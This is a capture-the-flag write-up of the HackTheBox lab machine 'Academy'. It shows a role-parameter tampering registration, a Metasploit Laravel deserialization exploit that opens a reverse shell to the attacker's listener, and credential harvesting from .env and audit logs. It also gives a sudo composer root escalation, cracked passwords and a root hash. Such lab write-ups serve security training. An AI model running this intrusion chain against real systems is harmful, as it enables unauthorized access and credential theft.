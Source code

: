 # Academy - Easy 

Being a box that was intended to announce the launch of a new HackTheBox service, Academy, it was intended to be an easy one with a lot of solves, but with some not so fun techniques.

### Initial enumeration
After the first nmap scan using `nmap -sC -sV -oN nmap/all -p- -v academy.htb` we get 3 ports open: 22 (SSH), 80(WEB) and 33060(mysqlx?). 

```
# Nmap 7.80 scan initiated Sat Nov  7 21:18:34 2020 as: nmap -sC -sV -oN nmap/all -p- -v 10.129.34.173
Nmap scan report for 10.129.34.173
Host is up (0.057s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
33060/tcp open  mysqlx?
```

### Starting the web enum

At first, if we try to enter the web using the IP address of the box we get redirected to `academy.htb`. So we must add this to `/etc/hosts` and re-enter. Well, now we have two new links mapped, `login.php` and `register.php`. While looking around the WEB I started in the background a web enum tool called ffuf, `ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt -u http://academy.htb//FUZZ -e .php`.

Back to the WEB interface, I've created an account and started looking around. There wasn't really something interesting in there, nothing was interactive. On the source code we can find hard coded an `Authorization: Bearer <sometoken>` but it has no use. Looking over the ffuf output I saw that we have a new page `admin.php`. Here is a simple login screen but if we try to re-enter our previous registered user we can't. 

Because there was nothing more on the webserver I tried to capture the login and register requests into the BurpSuite. On the require request we can see that along with `uid` (which is the username) and `password` we have `confirm` and `roleid` parameters. 

```
uid=test&password=test&confirm=test&roleid=0
```

If we forward this request to the Repeater, we change the `roleid` to 1 and the `uid` to `zatest` (just to make sure the user doesn't exist already) we get a succesfull register.

Now if we head over the `http://academy.htb/admin.php` and we login with `zatest:test` we get redirected to `http://academy.htb/admin-page.php`. 

### Getting the foothold

The `admin-page` has an information disclosure about a subdomain called `dev-staging-01.academy.htb`. If we add this to the `/etc/hosts` and we access it we get an error page specific to Laravel framework. Googling about `Laravel debug mode exploit` we see that there isn't much that we can exploit to lead to RCE, but there is a information disclosure about APP_KEY and Database credentials. If we dig a little deeper in the google we get a metasploit module that leads to RCE using [Laravel Token deserialization](https://www.rapid7.com/db/modules/exploit/unix/http/laravel_token_unserialize_exec) . This is the setup I've used for the metasploit: 

```
msf5 > use exploit/unix/http/laravel_token_unserialize_exec
[*] Using configured payload cmd/unix/reverse_perl
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set lhost tun0
lhost => tun0
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set rhosts 10.129.35.176
rhosts => 10.129.35.176
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set vhost dev-staging-01.academy.htb
vhost => dev-staging-01.academy.htb
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_KEY => dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
msf5 exploit(unix/http/laravel_token_unserialize_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.139:4444 
[*] Command shell session 1 opened (10.10.14.139:4444 -> 10.129.35.176:47088) at 2020-11-08 12:31:58 +0200

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

And we get the shell ass www-data. I made it tty with `python3 -c 'import pty; pty.spawn("/bin/bash")'`. From now I've started looking over files, `.env` from both webservers. And on the `academy/.env` I've got some database credentials but unfortunetly they didn't worked on mysql. Insted because the password seemed complex it could've been the password for user. So I've looked in the `/home` directory and tried to get the user folder which hash the `user.txt` file. I found the match at `cry0l1t3:mySup3rP4s5w0rd!!`
```
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

### Privesc to the mrb3n

Now that I have a shell as cry0l1t3, I've uploaded linpeas to the box and started the script. After it was finished, I saw that we are in the `adm` directory and we can read a bunch of files from `/var/log`. Here I've spent some time, until I got to the `/var/log/audit/`. The file that contained the sensitive information is in `Aug 23 21:45 /var/log/audit/audit.log.3
` and it was an easy spot because this was done around that time when this box was created. Going a few lines down we can spot this sequence which contains data encoded in HEX:

```
type=TTY msg=audit(1597199290.086:83): tty pid=2517 uid=1002 auid=0 ses=1 major=4 minor=1 comm="sh" data=7375206D7262336E0A
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```
If we decode it we get to
```
su mrb3n
mrb3n_Ac@d3my!
```
Now if we repete this exact two steps we get the shell as mrb3n.

### Getting the root

New user, new enum... but before I've started the linpeas again, I've did a basic check of `whoami`, looked inside `/home/mrb3n` and checked the `sudo -l`. Well this was a good hit because 
we are able to sudo on composer. This is a basic GTFOBins privesc which has [sudo](https://gtfobins.github.io/gtfobins/composer/#sudo) access.

```
mrb3n@academy:~$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

Now I've recreated this steps and got the root user. PWNED.
```
mrb3n@academy:~$ TF=$(mktemp -d)
mrb3n@academy:~$ echo '{"scripts":{"x":"/bin/bash -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
mrb3n@academy:~$ sudo composer --working-dir=$TF run-script x
PHP Warning:  Not important...
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# id
uid=0(root) gid=0(root) groups=0(root)
```



# Credentials
- cry0l1t3:mySup3rP4s5w0rd!! (user)
- mrb3n:mrb3n_Ac@d3my! (second user)
- $6$Haots4JVo2R7o2wP$XxlDAw9FgIGHZapROvxiKByJrGiZT0KHkoB9mLC4npT9wDOFsO3p9ad0ScF3tCKT.hk7uweN7KDK4EcmBEKv./ (root hash)